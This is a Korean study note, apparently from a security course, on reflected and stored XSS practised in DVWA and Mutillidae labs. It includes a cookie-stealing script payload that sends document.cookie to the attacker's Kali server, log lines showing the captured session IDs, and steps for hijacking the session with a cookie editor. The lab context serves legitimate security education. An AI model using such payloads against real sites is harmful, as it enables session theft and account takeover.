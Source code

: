 # Wireshark
패킷 캡쳐 프로그램
<br><br><br><br>

# Reflected XSS
- 특정한 피해자를 대상으로 함
- 웹 서버에 XSS가 남는 것은 아님

실습 방법
1. 칼리에 웹서버를 설치 후 `tail -f` 로 로그파일 모니터링 시작
2. 윈도우에서 DVWA에 `admin:password` 로 로그인 한 뒤 XSS reflected에 아래 내용 입력
``` js
<script>document.location='http://192.168.60.128/cookie?'+document.cookie</script>
```
3. 윈도우에서 `404 Not Found` 가 보임과 동시에 칼리에서는 쿠키 정보로써 세션을 탈취한 아래 내용이 보임

> ``` bash
> 192.168.60.1 - - [09/Apr/2021:17:18:51 +0900] "GET /cookie?security=low;%20PHPSESSID=48b916e85b42330e04852ff049d5f064 HTTP/1.1" 404 188 "http://192.168.60.129/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36"
> ```

4. 칼리에서 DVWA에 `pablo:letmein` 또는 `smithy:password` 로 로그인
5. Cookie Editor 에서 `PHPSESSID` 를 로그 파일의 내용으로 변경
6. 새로고침 하면 왼쪽 아래에 Username 이 admin 으로 된 것을 볼 수 있음
7. 윈도우에서 로그인 된 admin 을 로그아웃 한 후 칼리에서 새로고침 하면 세션이 끊겨서 같이 로그아웃 되는 것을 볼 수 있음
<br><br><br><br>

# Stored XSS
- 임의의 다수를 대상으로 함
- ‘Stored’ 단어처럼 웹서버에 XSS를 저장해서 남김
<br><br><br><br>

# OWASP Top 10
특정 해마다 웹 취약점 중에서 빈도가 많고 보안상 영향을 크게 주는 10가지를 선정해서 발표됨
이 취약점들을 `Mutillidae` 에서 실습 해볼 것임
<br><br><br><br>

# Mutillidae
시작하기에 앞서 `Metasplotiable2` 운영체제의 루트 권한으로 `/var/www/multillidae/config.inc` 파일을 아래 내용에 맞춰 수정하자.
``` php
$dbname = 'owasp10';
```
이로써 데이터베이스가 정상 연결되어 회원가입 등이 원할하게 사용된다.

아까와 같이 `XSS` 실습을 `Mutillidae` 에서 해보자.

1. 칼리에서 `tail -f /var/log/nginx/access.log` 로 로그 모니터링
2. 윈도우에서 `test:test` 회원가입 후 로그인
3. `OWASP Top 10` > `A2 (XSS)` > `Reflected` > `DNS Lookup` 에서 아까와 같은 스크립트를 실행하면 아래와 비슷한 로그 확인

`192.168.60.1 - - [09/Apr/2021:18:07:39 +0900] "GET /cookie?username=test;%20uid=17;%20PHPSESSID=2aae495d56711c667e53e602925e5876 HTTP/1.1" 404 188 "http://192.168.60.129/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36"`

4. 쿠키 값으로 `username` / `uid` / `PHPSESSID` 가 보이는데 이것을 칼리 Cookie Editor 로 전부 입력 후 새로고침
5. 왼쪽 상단에 `Logged In User` 가 `test` 인것을 확인할 수 있음

만약 재현을 하려고 윈도우와 칼리에서 웹 브라우저 주소창 왼쪽의 좌물쇠 모양을 누르고 쿠키들을 모두 지워주면 된다.
